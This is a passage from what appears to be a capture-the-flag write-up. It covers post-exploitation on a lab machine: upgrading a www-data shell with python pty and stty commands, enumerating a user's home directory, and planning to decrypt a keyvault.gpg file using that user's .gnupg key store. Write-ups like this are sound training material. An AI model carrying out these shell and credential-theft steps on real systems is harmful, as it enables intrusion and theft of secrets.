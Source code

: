 First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250611164428.png)

Inside of `hish` home directory, we can find this:

```bash
www-data@environment:~/app/storage/app/public/files$ ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Jan 12 11:51 .
drwxr-xr-x 18 root root 4096 Apr 30 00:31 ..
drwxr-xr-x  5 hish hish 4096 Apr 11 00:51 hish

www-data@environment:~/app/storage/app/public/files$ ls -la /home/hish/
total 36
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 .
drwxr-xr-x 3 root root 4096 Jan 12 11:51 ..
lrwxrwxrwx 1 root root    9 Apr  7 19:29 .bash_history -> /dev/null
-rw-r--r-- 1 hish hish  220 Jan  6 21:28 .bash_logout
-rw-r--r-- 1 hish hish 3526 Jan 12 14:42 .bashrc
drwxr-xr-x 4 hish hish 4096 Jun 12 07:44 .gnupg
drwxr-xr-x 3 hish hish 4096 Jan  6 21:43 .local
-rw-r--r-- 1 hish hish  807 Jan  6 21:28 .profile
drwxr-xr-x 2 hish hish 4096 Jan 12 11:49 backup
-rw-r--r-- 1 root hish   33 Jun 11 20:01 user.txt

www-data@environment:~/app/storage/app/public/files$ ls -la /home/hish/backup/
total 12
drwxr-xr-x 2 hish hish 4096 Jan 12 11:49 .
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 ..
-rw-r--r-- 1 hish hish  430 Jun 12 07:44 keyvault.gpg
```

We got a `keyvault.gpg` file, we can decrypt it with the `.gnupg` directory, the `.gnupg` directory is GnuPG’s (GPG) **configuration and key storage folder**. It’s automatically created in a user’s home directory when they use `gpg`. Here's what it contains and why it matters:

| File/Folder              | Purpose                                                                      |
| ------------------------ | ---------------------------------------------------------------------------- |
| `pubring.kbx`            | Stores **imported public keys**.                                             |
| `private-keys-v1.d/`     | Stores **user's private keys** (one per file, usually GnuPG v2+).            |
| `trustdb.gpg`            | Tracks trust levels of keys.                                                 |
| `gpg.conf`               | User configuration (keyserver, preferences, etc.).                           |
| `secring.gpg` _(legacy)_ | GnuPG v1/v1.4 file holding private keys (superseded by `private-keys-v1.d`). |
| `random_seed`            | Stores randomness seed used in crypto generation.                            |
